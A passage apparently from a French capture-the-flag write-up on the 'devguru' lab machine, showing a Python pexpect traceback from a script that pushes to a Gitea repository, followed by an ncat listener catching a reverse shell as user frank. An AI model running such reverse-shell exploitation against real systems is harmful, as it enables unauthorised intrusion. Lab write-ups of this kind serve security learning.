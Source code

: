 ```plain
    conn.expect("Username for .*: ") 
  File "/home/sirius/.local/share/virtualenvs/code-4-BMv2Qy/lib/python3.8/site-packages/pexpect/spawnbase.py", line 343, in expect 
    return self.expect_list(compiled_pattern_list, 
  File "/home/sirius/.local/share/virtualenvs/code-4-BMv2Qy/lib/python3.8/site-packages/pexpect/spawnbase.py", line 372, in expect_list 
    return exp.expect_loop(timeout) 
  File "/home/sirius/.local/share/virtualenvs/code-4-BMv2Qy/lib/python3.8/site-packages/pexpect/expect.py", line 179, in expect_loop 
    return self.eof(e) 
  File "/home/sirius/.local/share/virtualenvs/code-4-BMv2Qy/lib/python3.8/site-packages/pexpect/expect.py", line 122, in eof 
    raise exc 
pexpect.exceptions.EOF: End Of File (EOF). Exception style platform. 
<pexpect.pty_spawn.spawn object at 0x7f61d629dbe0> 
command: /bin/bash 
args: ['/bin/bash', '-c', 'cd /tmp/tmp.CxYwtR6dPD && git push -u origin master'] 
buffer (last 100 chars): b'' 
before (last 100 chars): b"er\r\nLa branche 'master' est param\xc3\xa9tr\xc3\xa9e pour suivre la branche distante 'master' depuis 'origin'.\r\n" 
after: <class 'pexpect.exceptions.EOF'> 
match: None 
match_index: None 
exitstatus: None 
flag_eof: True 
pid: 21806 
child_fd: 6 
closed: False 
timeout: 30 
delimiter: <class 'pexpect.exceptions.EOF'> 
logfile: None 
logfile_read: None 
logfile_send: None 
maxread: 2000 
ignorecase: False 
searchwindowsize: None 
delaybeforesend: 0.05 
delayafterclose: 0.1 
delayafterterminate: 0.1 
searcher: searcher_re: 
    0: re.compile(b'Username for .*: ')
```

et sur le Ncat préalablement mis en écoute :  

```plain
$ ncat -v -l -p 9999 
Ncat: Version 7.92 ( https://nmap.org/ncat ) 
Ncat: Listening on :::9999 
Ncat: Listening on 0.0.0.0:9999 
Ncat: Connection from 192.168.56.20. 
Ncat: Connection from 192.168.56.20:34700. 
bash: cannot set terminal process group (617): Inappropriate ioctl for device 
bash: no job control in this shell 
frank@devguru:~/gitea-repositories/frank/vuln.git$ id 
id 
uid=1000(frank) gid=1000(frank) groups=1000(frank)
```
